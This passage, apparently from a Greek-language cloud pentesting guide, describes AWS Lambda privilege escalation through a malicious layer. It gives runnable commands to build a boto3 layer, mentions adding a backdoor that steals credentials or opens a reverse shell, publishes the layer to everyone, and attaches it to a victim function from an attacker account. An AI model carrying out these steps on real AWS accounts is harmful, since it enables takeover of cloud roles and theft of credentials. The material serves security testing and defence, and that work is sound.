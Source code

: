 Για παράδειγμα, η βιβλιοθήκη boto3 φορτώνεται από `/var/runtime/boto3` (4η θέση).

#### Exploitation

Είναι δυνατόν να καταχραστείτε την άδεια `lambda:UpdateFunctionConfiguration` για να **προσθέσετε ένα νέο layer** σε μια λειτουργία lambda. Για να εκτελέσετε αυθαίρετο κώδικα, αυτό το layer πρέπει να περιέχει κάποια **βιβλιοθήκη που η lambda θα εισάγει.** Αν μπορείτε να διαβάσετε τον κώδικα της lambda, μπορείτε να το βρείτε εύκολα — επίσης σημειώστε ότι μπορεί να είναι πιθανό η lambda να **χρησιμοποιεί ήδη ένα layer** και να μπορείτε να **κατεβάσετε** το layer και να **προσθέσετε τον κώδικά σας** εκεί.

Για παράδειγμα, ας υποθέσουμε ότι η lambda χρησιμοποιεί τη βιβλιοθήκη boto3 — αυτό θα δημιουργήσει ένα τοπικό layer με την τελευταία έκδοση της βιβλιοθήκης:
```bash
pip3 install -t ./lambda_layer boto3
```
Μπορείτε να ανοίξετε `./lambda_layer/boto3/__init__.py` και να **add the backdoor in the global code** (π.χ. μια συνάρτηση για να exfiltrate credentials ή να αποκτήσετε ένα reverse shell για παράδειγμα).

Στη συνέχεια, zip αυτόν τον κατάλογο `./lambda_layer` και **upload the new lambda layer** στον δικό σας λογαριασμό (ή σε αυτόν του θύματος, αλλά ίσως να μην έχετε δικαιώματα για αυτό).\
Σημειώστε ότι χρειάζεται να δημιουργήσετε έναν φάκελο python και να τοποθετήσετε τις βιβλιοθήκες εκεί για να override το /opt/python/boto3. Επίσης, το layer πρέπει να είναι **compatible with the python version** που χρησιμοποιεί η lambda και αν το ανεβάσετε στον λογαριασμό σας, πρέπει να βρίσκεται στην **same region:**
```bash
aws lambda publish-layer-version --layer-name "boto3" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"
```
Τώρα, κάντε το ανεβασμένο lambda layer **προσβάσιμο από οποιονδήποτε λογαριασμό**:
```bash
aws lambda add-layer-version-permission --layer-name boto3 \
--version-number 1 --statement-id public \
--action lambda:GetLayerVersion --principal *
```
Και επισυνάψτε το lambda layer στη victim lambda function:
```bash
aws lambda update-function-configuration \
--function-name <func-name> \
--layers arn:aws:lambda:<region>:<attacker-account-id>:layer:boto3:1 \
--timeout 300 #5min for rev shells
```
Το επόμενο βήμα θα ήταν είτε να **καλέσουμε τη συνάρτηση** εμείς αν μπορούμε είτε να περιμένουμε μέχρι να **καλεστεί** με φυσιολογικά μέσα — που είναι η ασφαλέστερη μέθοδος.

Ένας **πιο διακριτικός τρόπος εκμετάλλευσης αυτής της ευπάθειας** βρίσκεται στο:

{{#ref}}
../../aws-persistence/aws-lambda-persistence/aws-lambda-layers-persistence.md
{{#endref}}

**Potential Impact:** Άμεσο privesc στον ρόλο υπηρεσίας του lambda που χρησιμοποιείται.

### `iam:PassRole`, `lambda:CreateFunction`, `lambda:CreateFunctionUrlConfig`, `lambda:InvokeFunctionUrl`
